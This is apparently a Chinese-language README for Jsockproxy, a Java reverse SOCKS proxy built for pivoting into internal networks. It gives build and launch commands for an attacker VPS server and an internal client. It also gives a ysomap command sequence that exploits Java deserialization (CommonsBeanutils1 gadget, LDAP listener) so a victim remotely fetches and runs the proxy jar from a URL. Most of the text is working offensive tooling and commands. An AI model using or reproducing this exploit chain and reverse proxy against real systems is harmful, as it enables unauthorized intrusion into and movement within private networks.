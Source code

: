 # 概述

Jsockproxy是Java版反向socks代理，适用于内网穿透。

# 编绎
```
mvn clean package -DskipTests
```

# 启动

## 服务端（部署在VPS）

```
java -cp target/jsockproxy.jar jsockproxy.server.ProxyServerApp -ssl false -serverPort VPS服务器端口 -token 123456
```

## 客户端（内网服务器）

```
java -cp target/jsockproxy.jar jsockproxy.client.ProxyClientApp -ssl false -token gzsendi -trunnelHost VPS服务器IP -trunnelPort VPS服务器端口 -groups test -serverFrontPorts VPS服务器代理端口
```

# 备注

## 直接默认配置启动

这场景主要是Java反序列化场景下，远程加载jar文件，按照默认配置，向服务端建立起反向代理，并进行内网渗透的场景：

## 使用前

```
// 修改下面代码中默认配置，具体看注释
jsockproxy.server.ProxyServerApp
jsockproxy.client.ProxyClientApp

// 编译
mvn clean package -DskipTests
```

## 服务端（部署在VPS）

```
java -cp target/jsockproxy.jar jsockproxy.server.ProxyServerApp
```
## Java 反序列化漏洞测试，例如使用[ysomap](https://github.com/wh1t3p1g/ysomap)

```
java -jar cli/target/ysomap.jar cli
use exploit LDAPLocalChainListener
use payload CommonsBeanutils1
use bullet TemplatesImplBullet
set lport 1389
set type loader
set effect RemoteFileHttpLoader
set body "http://127.0.0.1/jsockproxy.jar;jsockproxy.client.ProxyClientStart"
run
```